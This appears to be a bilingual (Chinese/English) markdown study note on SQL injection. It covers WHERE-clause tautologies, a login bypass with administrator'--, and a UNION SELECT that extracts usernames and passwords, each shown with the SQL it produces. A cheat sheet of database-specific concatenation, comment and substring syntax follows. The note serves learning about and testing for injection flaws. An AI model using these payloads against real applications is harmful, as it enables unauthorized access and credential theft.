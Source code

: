 # sql注入

## SQL injection vulnerability

+ in WHERE clause allowing retrieval of hidden data
  ```html
  productCode参数传递  '+OR+1=1--+
  ```  
  - [attacker > http://localhost:8080/sql/i?productCode='+OR+1=1--+](http://localhost:8080/sql/i?productCode='+OR+1=1--+)
  ```html
  执行sql如下:
   select * from products where productCode = '' OR 1=1-- ' AND productID = 1001;
  ```

+ Subverting application logic
  ```
  登录逻辑：
  SELECT * FROM users WHERE username = '${username}' AND password = '${password}'
  An attacker can submit the input: < administrator'-- >
  执行如下：
  SELECT * FROM users WHERE username = 'administrator'--' AND password = '${password}'
  ```

+ Retrieving data from other database tables
  ```
  SELECT name, description FROM products WHERE category = 'Gifts'
  An attacker can submit the input: < ' UNION SELECT username, password FROM users-- >
  执行如下：
  SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users--'
  ```


+ Second-order SQL injection
  ![二阶段sql注入](image/二阶sql注入.png)







#### SQL injection cheat sheet

+ 字符串拼接
    - Oracle	'foo'||'bar'
    - Microsoft	'foo'+'bar'
    - PostgreSQL	'foo'||'bar'
    - MySQL	'foo' 'bar' [Note the space between the two strings]
    - CONCAT('foo','bar')

+ 注释
    + Oracle
        + `--comment`
    + Microsoft
        + `--comment`
        - `/*comment*/`
    + PostgreSQL
        + `--comment`
        - `/*comment*/`
    + MySQL
        + `#comment`
        + `-- comment [Note the space after the double dash]`
        + `/*comment*/`

+ 字符串截取
  ```
  Oracle        SUBSTR('foobar', 4, 2)
  Microsoft     SUBSTRING('foobar', 4, 2)
  PostgreSQL    SUBSTRING('foobar', 4, 2)
  MySQL         SUBSTRING('foobar', 4, 2)
  ```

